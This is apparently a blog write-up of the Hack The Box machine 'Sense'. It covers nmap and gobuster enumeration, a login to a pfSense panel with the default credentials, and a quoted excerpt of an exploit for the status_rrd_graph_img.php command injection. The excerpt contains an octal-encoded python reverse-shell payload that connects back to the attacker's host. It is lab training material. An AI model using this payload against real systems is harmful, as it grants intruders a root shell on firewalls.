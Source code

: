```yaml
---
"title": "Hack The Box - Sense"
"date": 2020-07-10
"tags": ["freebsd", "easy", "pfsense"]
"keywords": ["freebsd", "easy", "pfsense"]
"categories": "HackTheBox OSCP-Like"
"author": "Ghostbyt3"
"description": "We are going to pwn Sense from Hack The Box."
"featured_image": "/img/htb-sense/Untitled.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-sense/Untitled.png)

We are going to pwn Sense from Hack The Box.                                                             

Link: [https://www.hackthebox.eu/home/machines/profile/111](https://www.hackthebox.eu/home/machines/profile/111)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (92%), OpenBSD 4.X (86%), FreeBSD 8.X (85%)
OS CPE: cpe:/o:openbsd:openbsd:4.0 cpe:/o:freebsd:freebsd:8.1
Aggressive OS guesses: Comau C4G robot control unit (92%), OpenBSD 4.0 (86%), FreeBSD 8.1 (85%), OpenBSD 4.3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTPS Enumeration

When I tried to visit Port 80 first it redirects to `https`

![Untitled](/img/htb-sense/Untitled%201.png)

Looks like its a `pfSense` login page.

> What is pfsense? **pfSense is an open source firewall/router computer software distribution based on FreeBSD. It is installed on a physical computer or a virtual machine to make a dedicated firewall/router for a network.**

I searched for default credentials and got this.

![Untitled](/img/htb-sense/Untitled%202.png)

When I tried to login, it says Username or Password incorrect. I decided to run Gobuster

### GoBuster Scan Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/07/10 10:36:09 Starting gobuster
===============================================================
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/edit.php (Status: 200)
/includes (Status: 301)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
```

Ok we got an username finally and it says password is default one, which is `pfsense`

![Untitled](/img/htb-sense/Untitled%203.png)

I tried login with `rohit : pfsense` the default password. And it worked.

![Untitled](/img/htb-sense/Untitled%204.png)

Since we got the version of it, I decided to search for exploits and found this.

> [https://www.exploit-db.com/exploits/43560](https://www.exploit-db.com/exploits/43560)

## Getting Shell

According to exploit its looking for `/status_rrd_graph_img.php` to command injection. And helps us to get python reverse shell.

```python
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)

payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
```

so I decided to check whether its there or not? And Yes its there. Downloaded the exploit to my machine.

![Untitled](/img/htb-sense/Untitled%205.png)

First I used `--help` parameter to know what going on and set those parameters and I got the shell.

![Untitled](/img/htb-sense/Untitled%206.png)

We don’t have to escalate privileges since pfSense is running as root and the command injection vulnerability leads to root shell.

We own the box.